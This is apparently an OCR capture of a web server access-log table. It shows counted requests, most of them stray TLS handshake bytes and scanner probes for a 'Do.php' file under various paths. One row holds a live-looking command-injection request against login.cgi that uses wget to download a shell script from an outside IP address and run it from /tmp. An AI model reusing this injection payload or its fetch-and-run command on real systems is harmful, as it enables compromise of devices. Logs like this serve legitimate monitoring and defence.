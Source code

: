 | 137 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03\x98\x8D\xF3\xA1\xCF]0X\xD1\x0CH\x04O\x99\x8D}\x88YZ\x0C\xA3\x17\x84 F\xCB\x85\xF2\xD0\x96\xA4\xDC\x00\x00\x8C\xC00\xC0,\xC02\xC0.\xC0/\xC0+\xC01\xC0-\x00\xA5\x00\xA3\x00\xA1\x00\x9F\x00\xA4\x00\xA2\x00\xA0\x00\x9E\xC0(\xC0$\xC0\x14\xC0                                                                                                                                    |
| 138 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03\x81\x84\x5C \xF3\xD1x\xF3?E+\x7F6KJZ}WyM_\xC3\xD5\x14\x14\x03[H\x93\xAFZ\xB7\x00\x00\x8C\xC00\xC0,\xC02\xC0.\xC0/\xC0+\xC01\xC0-\x00\xA5\x00\xA3\x00\xA1\x00\x9F\x00\xA4\x00\xA2\x00\xA0\x00\x9E\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                         |
| 139 |                     1 | GET //assets/Do.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                |
| 140 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03\xBEa\x84\xE1\xBD\x22\xEC\x96J\xE9qB\x86                                                                                                                                                                                                                                                                                                                                        |
| 141 |                     1 | GET //_asterisk/Do.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 142 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03\xC7\x860\xC8NmM\xF0p\xBAZ\x80\xE2\x89\x81\x96O\xCA\x82)<                                                                                                                                                                                                                                                                                                                       |
| 143 |                     1 | GET //vtigercrm/Do.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
| 144 |                     1 | \x16\x03\x01\x00\xFC\x01\x00\x00\xF8\x03\x03\x98\x0C\xB1\xD4}\xE2\x08\xED\x98PV&\xA8\xE0Jj\xFC|\x03\xE3U`f\x946\x08\xCARt\xFA\x90\xB6\x00\x00\x8C\xC00\xC0,\xC02\xC0.\xC0/\xC0+\xC01\xC0-\x00\xA5\x00\xA3\x00\xA1\x00\x9F\x00\xA4\x00\xA2\x00\xA0\x00\x9E\xC0(\xC0$\xC0\x14\xC0                                                                                                                                             |
| 145 |                     1 | GET //recordings/Do.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
| 146 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\xDB\xAB\x1D\xE1>`\xAB%\xF1\xDE\x11\x94\xC2\xDA1\xDC\xE0#t\xFES\x9BjL\xAEmb\xB7\x0E\xB2db \xA84p\xB0r[0\x91H>\xBBw\x9FN0\x99\xFE2\x09N\xA8\xEF\x8C\xC4\xD1\xD5\x93=\xE3\xC1N\x0F\x00\x1A\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                |
| 147 |                     1 | GET /login.cgi?cli=aa%20aa%27;wget%20http://104.248.224.147/sh%20-O%20-%3E%20/tmp/kh;sh%20/tmp/kh%27$ HTTP/1.1                                                                                                                                                                                                                                                                                                              |
| 148 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03Ib<Z\xA4la\xF9A\xA8\xEC\xD3\x90\xAB\xB0b\xAF)\xFD\x84b\x8B\x07\xC6\xE3\x85\xD0g9i\xCE+\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                                             |
| 149 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03:\xF0\xD7\xED+\x06\xA0\xD2\xA4+[\xD1\xCBL\x18\xACp\xB0\x1B\xA6\x8D\xCA\xB2S\x9D\x97\x80\xB4\xC8\x9C\xC3\x08 \x89\x82@\x9A\xCE'!\x1Do\x91\x9C\xE6\x91\x9B\xE9\x16\x9E\x93\xE9\xF5\xF5<\x94\xFD\x1D\xE5\xFAi\xA9\xF6\x07\xAD\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                         |